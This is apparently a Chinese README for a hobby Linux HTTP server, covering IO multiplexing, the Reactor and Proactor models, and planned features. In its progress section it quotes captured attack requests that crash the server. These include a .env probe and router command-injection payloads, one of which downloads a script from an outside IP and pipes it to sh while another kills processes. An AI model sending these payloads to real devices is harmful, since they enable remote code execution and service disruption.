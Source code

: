 # MyWeb

## 1、开发进度

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
* HEAD / HTTP/1.0


## 2、理论基础

### 三种 IO多路复用技术


### 同步/异步，阻塞/非阻塞
* 同步
  * 指程序完全按照代码序列的顺序执行
* 异步
  * 指程序的执行需要由系统事件驱动
* 半同步半异步模式 (Reactor)
  * 同步线程用于处理客户逻辑
  * 异步线程用于处理I/O事件
  * 异步线程监听到客户请求后，就将其封装成请求对象并插入请求队列中
  * 请求队列将通知某个工作在同步模式的工作线程来读取并处理该请求对象
* 半同步半反应堆模式 (Proactor)
  * 主线程充当异步线程，负责监听所有 socket 的读写事件
  * 若有新的连接到来，主线程接收，并往 epoll 内核事件表中注册该事件
  * 若有读写事件发生，主线程从 socket 上接收数据，并将其封装成请求对象，插入请求队列当中
  * 所有工作线程睡眠在请求队列上，竞争处理请求队列上的任务

### HTTP 报文格式

